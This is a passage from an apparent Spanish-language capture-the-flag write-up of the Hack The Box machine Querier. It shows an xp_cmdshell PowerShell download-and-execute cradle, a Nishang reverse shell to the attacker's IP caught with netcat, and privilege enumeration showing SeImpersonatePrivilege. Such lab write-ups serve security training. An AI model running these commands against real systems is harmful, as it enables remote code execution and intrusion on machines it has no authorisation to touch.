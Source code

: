 Vamos a entablarnos una reverse shell, copiamos el archivo *Invoke-PowerShellTcp.ps1* a nuestro directorio de trabajo:

```bash
❯ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 PS.ps1
```

Abrimos el archivo y al final agregamos la siguiente linea:

```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.2 -Port 443
```

Nos compartimos un servidor HTTP con python, nos ponemos en escucha a través del puerto 443 y procedemos a ejecutar lo siguiente en la máquina víctima:

```bash
SQL> xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.2/PS.ps1\")"
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.125 - - [17/Sep/2021 15:50:09] "GET /PS.ps1 HTTP/1.1" 200 -
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.125] 49702
Windows PowerShell running as user mssql-svc on QUERIER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
querier\mssql-svc
PS C:\Windows\system32>
```

Antes de hacer cualquier cosa, validamos si nos encontramos en un sistema de 64 bits y en un proceso igual:

```bash
[Environment]::Is64BitOperatingSystem
True
[Environment]::Is64BitProcess
True
PS C:\Windows\system32>
```

A este punto ya poder visualizar la flag (user.txt). Ahora solo falta escalar privilegios, por lo que empezamos a enumerar un poco el sistema.

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\Users\mssql-svc\Desktop>
```
